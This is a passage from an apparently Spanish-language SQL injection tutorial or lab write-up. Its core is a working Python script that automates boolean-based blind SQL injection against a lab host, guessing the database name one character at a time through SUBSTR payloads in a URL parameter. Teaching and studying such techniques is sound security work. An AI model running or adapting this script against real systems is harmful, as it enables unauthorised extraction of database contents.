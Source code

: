 Con esta parte ya explicada, ya tenemos una idea de cómo podemos descubrir la información que contiene la base de datos.

Sin embargo, por razones lógicas, no vamos a estar adivinando carácteres manualmente. Es por ello que mediante un script automatizaremos este tipo de inyecciones.

```python
#!/usr/bin/python3
import requests


# Global variables
main_url = "http://192.168.6.5/searchgames.php"

minus = "abcdefghijklmnopqrstuvwxyz"
mayus = "ABCDEFGHIJKLMNOPQRSTUVWXYZ"
symbols = "!\"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~"
numbers = "0123456789"

characters = minus + mayus + symbols + numbers

def make_SQLi():
  string = ""

  for position in range(1,8):
    for character in characters:
      sqli = main_url + "?id=9'OR SUBSTR(database(),%d,1)='%s'-- -" % (position,character)

      r = requests.get(sqli)

      if "Producto encontrado" in r.text:
        string+=character
        print(f"El carácter de la posición {position} es: {character}")
        break

  return string

if __name__ == "__main__":
	string = make_SQLi()
	print(f"La información es: {string}")
```
Quedando el resultado tal que así:

![img](/assets/img/sqli/script_boolean1.png)
